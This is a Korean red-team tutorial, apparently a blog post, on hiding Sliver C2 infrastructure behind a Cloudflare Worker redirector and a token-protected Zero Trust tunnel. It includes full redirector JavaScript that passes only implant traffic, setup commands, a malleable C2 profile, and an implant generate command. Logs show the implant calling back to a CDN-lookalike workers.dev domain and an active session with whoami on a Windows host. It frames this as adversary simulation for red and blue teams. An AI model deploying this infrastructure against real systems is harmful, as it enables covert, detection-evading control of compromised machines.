







# Cloudflared Tunnel과 Worker

## 개념

서버리스 컴퓨팅 서비스인 Cloudflare Workers와 제로 트러스트 터널 서비스 등을 활용하면 간단하면서도 작전 보안에 탁월한 공격자 인프라를 손쉽게 구축할 수 있다. 물론 VPC, 서브넷, VPN, 가상 머신 등 대규모 인프라를 직접 구축하는 방법도 있지만, 클라우드 프로바이더가 제공하는 서비스만을 이용해 최소한의 인프라로 구성하는 방법 또한 빠르고 효율적이며, 작전 보안에 유리할 수 있다.

<figure><figcaption></figcaption></figure>

이번 글에서는 위 다이어그램처럼 에이전트 --> 클라우드플레어 워커(Worker) URL --> 워커만 접근 가능한 클라우드플레어 터널 --> 공격자 C2 서버까지 콜백하는 간단 인프라를 만들어본다.

### 제로 트러스트 터널&#x20;

클라우드플레어의 제로 트러스트 터널은 사용자 인프라를 클라우드플레어의 글로벌 네트워크와 연결함으로서 전세계 어디에서든 사용자의 인프라에 접근 가능케 해주는 서비스다. 뒤집어 생각해본다면 공격자의 인프라를 클라우드플레어 뒤에다 놔 노출을 최소화 하고, 전세계 어디에서든 클라우드플레어 인프라를 통해 C2로 콜백을 할 수 있다면 그 보다 이상적인 인프라는 없을 것이다.

### 제로 트러스트 Access&#x20;

Access는 제로 트러스트 환경에서 인증, 접근 제어, 토큰 관리, 보안 정책 등을 통합적으로 관리하는 서비스다. 예를 들어 제로 트러스트 터널에 인증 기능을 추가하고 싶다면, Access에서 서비스 토큰을 발급해 부여함으로써 해당 토큰을 가진 트래픽만 터널을 사용할 수 있도록 설정할 수 있다.

### 클라우드플레어 워커&#x20;

클라우드플레어 워커(Cloudflare Worker)는 서버가 필요 없는 서버리스 컴퓨팅 서비스다. 서버리스 컴퓨팅 서비스를 공격자의 리다이렉터로 활용하는 방법은 꽤 오래된 기법이다. 최근에는 단순한 HTTP/S 리다이렉트뿐만 아니라, 다른 클라우드 서비스와 함께 활용하는 사례도 점점 늘고 있다. 예를 들어, 이번 실습에서는 들어오는 HTTP 요청에 Access의 서비스 토큰을 추가한 뒤 이를 제로 트러스트 터널로 전송하는 방법을 다뤄본다.

## 인프라 구성 단계

사용할 서비스들의 개념을 알아봤으니, 인프라 구성 단계에 대해 알아본다.

0\. 공격자 C2 서버, 도메인, Malleable C2 준비

1. 클라우드플레어 제로 트러스트 터널 추가 후 C2 서버에서 실행
2. 터널 인증용 Access 서비스 토큰 생성
3. 생성한 서비스 토큰을 터널에 보안 정책으로 부여
4. 클라우드플레어 워커(Worker) 생성, 리다이렉터 코드 업데이트

이 페이지를 읽을 정도면 0번 정도는 설명을 안해도 될테니, 생략한다.

1\~4번은 숙달만 되면 5분 내로 할 수도 있다. 공격자 C2 또한 터널을 사용할 것이기 때문에 클라우드, VPS, 심지어 로컬 호스트(vmware + 칼리, 등) 등, 어디에 있던지 상관 없다. 물론 실제 오퍼레이션이였다면 작전 보안을 생각해 클라우드 가상머신 + 방화벽 정책 + 하드닝 된 호스트를 준비하는 것이 좋을 것이다.

## 트래픽 전송 단계&#x20;

<figure><figcaption></figcaption></figure>

모든 설정이 끝나면 위 다이어그램처럼 트래픽이 전송된다.

1. C2 에이전트) 클라우드플레어의 워커 URL인 `<워커>.<커스텀도메인>.workder.dev` 로 콜백한다.
2. 워커) 들어오는 트래픽에 대해 HTTP Header, Header value, User Agent 등을 확인해 오로지 C2 에이전트의 트래픽만 받는다.
3. 워커) 들어오는 C2 에이전트 트래픽이 모든 검사를 통과한다면, 서비스 토큰 (CF-Access-Client-Id, CF-Access-Client-Secret) 을 붙여서 백엔드 터널로 보낸다.
4. 터널) 터널은 리다이렉터에서 보내는 트래픽에서 서비스 토큰이 붙어있는 것을 확인하고, 터널을 통해 공격자 호스트의 127.0.0.1:443 C2 리스너로 트래픽을 보낸다

## 인프라 구성

### **1. 클라우드플레어 제로 트러스트 터널 추가**

Zero Trust > 네트워크 > Tunnels > 터널 추가 > Cloudflared 추가

<figure><figcaption></figcaption></figure>

데비안/우분투/칼리 리눅스 기준 Debian 선택 후 커넥터 설치

<figure><figcaption></figcaption></figure>

&#x20;

터널 서비스 설치 명령어들을 복사/붙여넣기 한 뒤, 터널을 시작한다.

```
cloudflared tunnel run --token <토큰>
```

그 뒤 다시 웹으로 와서 "다음"을 누른 뒤 트래픽 라우팅을 설정하고, 터널을 저장한다.

다음 누른 뒤 트래픽 라우팅 설정, 터널 저장.

<figure><figcaption></figcaption></figure>

* 공개 호스트: 터널의 공인 호스트 이름
* 서비스: 터널이 트래픽을 주고 받을 공격자 호스트의 URL (예. C2 서버의 포트 443 HTTPS 리스너 - https://127.0.0.1:443)
* 추가 설정 > TLS > TLS 확인 없음 "켬"

테스트용으로 터널의 공인 호스트이름에 curl을 날렸을 때 error code: 502가 나오면 성공이다. 어차피 https 트래픽을 http에 날린거라 응답은 의미가 없고, 그냥 요청이 날라가는 것만 확인하면 된다. 또한, python3에서 요청이 127.0.0.1 에서 날라왔으면 터널을 타고 온 것이다.

```
root@ip-10-1-14-169:/tmp# python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
127.0.0.1 - - [28/Dec/2024 14:18:02] code 400, message Bad request version ('\\x9ezj\\x82p\\x95')
127.0.0.1 - - [28/Dec/2024 14:18:02] "\x16\x03\x01\x00ä\x01\x00\x00à\x03\x03¨\x8eÇt2ø\x08P@°H­c\x11Ëq\x9a³áL\x10'â~\x8b\x17\x80û\x1d&Ë\x84 ³fZ\x0eªú(Y5O\x11\x11¾Ù\x09N\x85\x9ezj\x82p\x95" 400 -

root@ip-10-1-14-169:~# curl https://resources-kr.shealthinsurance.com:443
error code: 502root@ip-10-1-14-169:~#
```

### 2. 터널 인증용 Access 서비스 토큰 생성

위에서 터널을 생성했지만, 현재 이 터널은 공인 호스트 이름에 연결되어 있고 인터넷에서 인증 없이 접근 가능한 상태다. 따라서 접근 제어 및 인증을 위해서 서비스 토큰을 생성한 뒤, 터널에 부여해 오로지 인가 받은 트래픽만 터널에 접근할 수 있도록 설정한다.


Zero Trust > Access > 서비스 인증 > 서비스 토큰 생성 (기간은 마음대로)

<figure><figcaption></figcaption></figure>

생성 뒤 서비스 토큰 2개는 꼭 복사해 저장해놓는다. 나중에 필요하고, 이 화면 이외에는 절대로 다시 볼 수 없다.


### 3.  생성한 서비스 토큰을 터널에 보안 정책으로 부여

Zero Trust > Access > 응용 프로그램 > 응용 프로그램 추가 > 자체 호스팅

<figure><figcaption></figcaption></figure>

* 응용 프로그램 도메인: 아까 만들었던 터널의 공인 호스트 DNS 호스트이름을 적는다.
* 세션 기간: 1달

나머지는 그대로 두고, 다음을 누른다. 이후 서비스 토큰 부여를 위한 정책을 생성한다.

<figure><figcaption></figcaption></figure>

* 정책 이름: 아무거나
* 작업: Service Auth
* 세션 기간: 1달

<figure><figcaption></figcaption></figure>

* 규칙 구성: Service Token -> 값은 아까 만들었던 토큰 이름

마지막 페이지에서는 딱히 아무 설정도 안해도 된다.

여기까지 했으면 테스트를 진행한다. 서비스 토큰 (CF-Access-Client-Id, Secret)을 붙이지 않고 curl을 하면 403 Forbidden이 뜬다. 하지만 서비스 토큰을 헤더 형태로 붙여서 보내면 Access를 통과해 터널에 도착하고, 맨 처음과 동일하게 502가 뜨는 것을 볼 수 있다.

```
# 서비스 토큰 없이 Access에 막힘 
root@ip-10-1-14-169:~# curl -k -I https://resources-kr.shealthinsurance.com:443/test.txt                                                               
HTTP/2 403 
date: Sat, 28 Dec 2024 14:25:13 GMT
content-type: text/html

# 서비스 토큰 있으면 Access 인증 통과, 터널까지 진행 
root@ip-10-1-14-169:~# curl -k -I https://resources-kr.shealthinsurance.com:443/test.txt -H 'CF-Access-Client-Id: <검열됨>' -H 'CF-Access-Client-Secret: <검열됨>'

HTTP/2 502 
date: Sat, 28 Dec 2024 14:26:38 GMT
content-type: text/plain; charset=UTF-8
```

### 4. 클라우드플레어 워커(Worker) 생성, 리다이렉터 코드 업데이트

터널 설정이 끝났다면, 이제 리다이렉터 역할을 할 워커를 생성한다. 이 워커는 들어오는 HTTP 트래픽을 상대로 HTTP 헤더 + User Agent 검사를 해 오로지 허가 받은 트래픽만 리다이렉트 되도록 검사한다. 허가 받은 트래픽에는 위에서 생성한 터널 접근용 서비스 토큰을 붙여 터널로 리다이렉트한다.


* 클라우드플레어 > Workers and Pages > Worker 생성 > 배포
* 클라우드플레어 > Workers and Pages > 하위 도메인 변경

<figure><figcaption></figcaption></figure>

* 워커 클릭 > 오른쪽 위 코드 편집 > 코드 편집 후 오른쪽 위 "배포"

<figure><figcaption></figcaption></figure>

이제 아래 코드에서 하드코딩된 섹션만 업데이트 하면 된다. 아래는 예시일 뿐이며, C2 프레임워크와 상관없이 에이전트의 헤더 이름 + 값 + User-Agent 값을 확인한다. 그 이후 위 3개의 값이 모두 일치한다면 C2 서버가 있는 터널로 서비스 토큰을 붙여서 보내고, 아니라면 403을 반환한다.

* WORKER\_ENDPOINT: 현재 워커 노드의 `<워커이름>.<서브도메인>.worker.dev`
* SLIVER\_ENDPOINT: 터널의 공인 호스트 DNS 이름 (예. `resoures-kr.shealthinsurance.com`)
* SLIVER\_HEADER\_NAME: Malleable C2 프로필의 에이전트 헤더 이름
* SLIVER\_HEADER\_VALUE: Malleable C2 프로필의 에이전트 헤더 값
* SLIVER\_UA: Malleable C2 프로필의 User Agent 값

```javascript
(() => {
    // # UPDATE ME # Hardcoding Section. 
    const WORKER_ENDPOINT = "https://REDACTED.REDACTED.workers.dev";
    const SLIVER_ENDPOINT = "https://REDACTED.REDACTED.com";
    const SERVICE_CF_ID = "REDACTED.access";
    const SERVICE_CF_SECRET = "REDACTED";
    const SLIVER_HEADER_NAME = ["Header-1", "Header-2"];    // Single entry is also fine 
    const SLIVER_HEADER_VALUE = ["Value-1", "Value-2"];     // Single entry is also fine 
    const SLIVER_UA = "CustomUserAgentValue";

    addEventListener("fetch", (event) => {
        event.respondWith(handleRequest(event));
    });

    async function handleRequest(event) {
        const req = event.request;

        // Safety Check 1 - HTTP Header name + value 
        for (let i = 0; i < SLIVER_HEADER_NAME.length; i++) {
            const headerName = SLIVER_HEADER_NAME[i];
            const headerValue = SLIVER_HEADER_VALUE[i];
            const reqHeaderValue = req.headers.get(headerName);

            if (!reqHeaderValue || reqHeaderValue !== headerValue) {
                return new Response("Forbidden", { status: 403 });
            }
        }

        // Safety Check 2 - User Agent check 
        const userAgent = req.headers.get("User-Agent");
        if (!userAgent || userAgent !== SLIVER_UA) {
            return new Response("Forbidden", { status: 403 });
        }

        // Build request
        const path = req.url.replace(WORKER_ENDPOINT, "");
        const sliverUrl = SLIVER_ENDPOINT + path;
        const modifiedHeaders = new Headers(req.headers);

        // If incoming client/agent is already authenticated, do NOT add service tokens again since that will 
        // indefinitely create duplicated CF_Authorization cookies to the point of 400 Bad Request. 
        const incomingCookie = req.headers.get("Cookie") || "";
        if (!incomingCookie.includes("CF_Authorization=")) {
            modifiedHeaders.set("CF-Access-Client-Id", SERVICE_CF_ID);
            modifiedHeaders.set("CF-Access-Client-Secret", SERVICE_CF_SECRET);
        } else {
            modifiedHeaders.delete("CF-Access-Client-Id");
            modifiedHeaders.delete("CF-Access-Client-Secret");
        }

        const sliverRequest = new Request(sliverUrl, {
            method: req.method,
            headers: modifiedHeaders,
            body: req.body,
        });

        const sliverResponse = await fetch(sliverRequest);

        return sliverResponse;
    }
})();
```

## 결과 확인

<figure><figcaption></figcaption></figure>

모든 설정이 끝났으니, 맨 처음 설명했던대로 트래픽이 전송될 것이다.

다음은 Sliver v1.5.42와 간단한 Malleable C2 프로필, 그리고 `generate --debug -b https://<워커노드>.workers.dev -f exe -s /tmp/sliver-int.exe` 를 이용한 테스트다.

**설정에 사용된 malleable c2의 헤더 + UA**

```json
# cat ~/.sliver/config/http-c2.json 

"implant_config": {                                                      
	"user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.3339.396 Safari/537.36",
	"chrome_base_version": 100,
	"macos_version": "10_15_7",
	"url_parameters": null,
	"headers": [      
	{                     
		"name": "Red-Team-Playbook",
		"value": "testov2"
	},                                                           
	{                                                            
		"name": "Some-Random-Header",    
		"value": "choisecurity"       
	}                     
	], 
	
< ... 생략 ... > 
```

**슬리버 에이전트 + 팀 서버 출력**&#x20;

```bash
# 슬리버 에이전트 
2024/12/28 23:34:58 transports.go:104: Return generator: (chan *url.URL)(0xc000086780)
2024/12/28 23:34:58 transports.go:92: Yield c2 uri = 'https://lucky-star-82bd.kr-fonts-cdn.workers.dev'
2024/12/28 23:34:58 transports.go:92: Yield c2 uri = 'https://lucky-star-82bd.kr-fonts-cdn.workers.dev'
2024/12/28 23:34:58 session.go:84: Next CC = https://lucky-star-82bd.kr-fonts-cdn.workers.dev
2024/12/28 23:34:58 session.go:84: Next CC = https://lucky-star-82bd.kr-fonts-cdn.workers.dev
2024/12/28 23:34:58 session.go:172: Connecting -> http(s)://lucky-star-82bd.kr-fonts-cdn.workers.dev
2024/12/28 23:34:58 transports.go:92: Yield c2 uri = 'https://lucky-star-82bd.kr-fonts-cdn.workers.dev'
2024/12/28 23:34:58 drivers_windows.go:36: Using go http driver
2024/12/28 23:34:58 provider_windows.go:145: [proxy.Provider.readWinHttpProxy] No proxy discovered via AutoDetect: winapi error #12180
2024/12/28 23:34:58 httpclient.go:682: [http] segments = [], filename = rpc, ext = php
2024/12/28 23:34:58 crypto.go:217: TOTP Code (2024-12-28 14:34:58.8819973 +0000 UTC): 87957323
2024/12/28 23:34:58 httpclient.go:343: [http] POST -> https://lucky-star-82bd.kr-fonts-cdn.workers.dev/rpc.html?d=45268pp69&kz=87957py323 (266 bytes)

# cli 
[*] Session 57daae64 NATURAL_CONCEPT - tcp(127.0.0.1:58058)->2a06:98c0:3600::103 (DESKTOP-HUH) - windows/amd64 - Sat, 28 Dec 2024 14:34:59 UTC

sliver > sessions 

 ID         Transport   Remote Address                              Hostname          Username   Operating System   Health  
========== =========== =========================================== ================= ========== ================== =========
 57daae64   http(s)     tcp(127.0.0.1:58058)->2a06:98c0:3600::103   DESKTOP-HUH   root       windows/amd64      [ALIVE] 

sliver > use 57daae64-7614-4536-a0e4-ac5fee1c850d

[*] Active session NATURAL_CONCEPT (57daae64-7614-4536-a0e4-ac5fee1c850d)

sliver (NATURAL_CONCEPT) > whoami

Logon ID: DESKTOP-HUH\root
[*] Current Token ID: DESKTOP-HUH\root
```

## 마치며

클라우드에 다양하고, 보안을 중요시 여기며, 유용한 서비스들이 나오면 나올수록 공격자들 또한 이를 악용할 것이다. 대규모 클라우드 기반 인프라나 장악한 서버들을 활용해 인프라를 구축할 수도 있겠지만, 정상적인 유저로서 정상적인 서비스들을 이용해 최소한의 인프라를 만들면서도 작전 보안을 챙길 수도 있을 것이다. 공격자 시뮬레이션의 입장에서는 최신 공격자 인프라 트렌드가 어떤식으로 이뤄지는지 공부하고 분석해야 한다. 블루팀의 입장에서는 점점 인프라를 클라우드 서비스 및 프로바이더들에게 의존하는 공격자들을 어떻게 탐지하고 막아낼 것인지, 클라우드 서비스 제공자들과는 또 어떻게 협업을 해야할지 고민해야 할 것이다.

## 레퍼런스

* [https://labs.jumpsec.com/putting-the-c2-in-c2loudflare/ ](https://labs.jumpsec.com/putting-the-c2-in-c2loudflare/)
* [https://github.com/JumpsecLabs/CloudflareRedirector](https://github.com/JumpsecLabs/CloudflareRedirector)
* [https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/](https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/)
* [https://www.redteaming.org/cftunnels.html](https://www.redteaming.org/cftunnels.html)
* [https://blog.xpnsec.com/aws-lambda-redirector/](https://blog.xpnsec.com/aws-lambda-redirector/)
* [https://developers.cloudflare.com/cloudflare-one/identity/service-tokens](https://developers.cloudflare.com/cloudflare-one/identity/service-tokens)
* [https://developers.cloudflare.com/workers/runtime-apis/fetch/](https://developers.cloudflare.com/workers/runtime-apis/fetch/)
* [https://developers.cloudflare.com/workers/platform/limits/#subrequests](https://developers.cloudflare.com/workers/platform/limits/#subrequests)


### 기타 등등

* 원 블로그 글과 깃허브 리포에는 CF\_Authorization 쿠키 관련된 정보가 없어 코드 수정 및 디버깅을 하느라 삽질을 조금 했다. 간단하게 정리하자면 CF-Access-Client-Id와 CF-Access-Client-Secret을 터널에 보낼때마다 백엔드 서버가 아니라 터널 자체가 `Set-Cookie: CF_Authorization` 쿠키를 설정해준다. 원 코드에서는 모든 요청에 서비스 토큰을 붙여서 계속 보냈고, 이는 `Set-Cookie: CF_Authorization`을 계속 반환했다. 결국 120 \~ 140 초 동안은 정상적으로 운영되다가, 150초대 쯤 HTTP 요청에 약 30 \~ 40개의 긴 쿠키들이 붙어 날라가기 시작하면 워커 자체에서 `400 Bad Request`를 반환 하는 문제가 있었다. 이 문제는 다른 블로그 글에 언급되지 않았으며, 워커, 터널, 백엔드 C2, 그 어디에도 로깅이 되지 않았고, 제대로 문서화되어 있지도 않아 워커와 Access의 서비스 토큰 작동 원리에 대해 공식 문서를 통해 공부하고, 각 워커 코드를 수정해 요청/응답 로깅 및 C2서버/타겟 호스트에 각각 와이어샤크+tcpdump를 놓고 분석하는 방법으로 디버깅 했다.
  * 30분 걸릴 실습이 6시간 디버깅 세션으로 이어질 줄은 몰랐다.
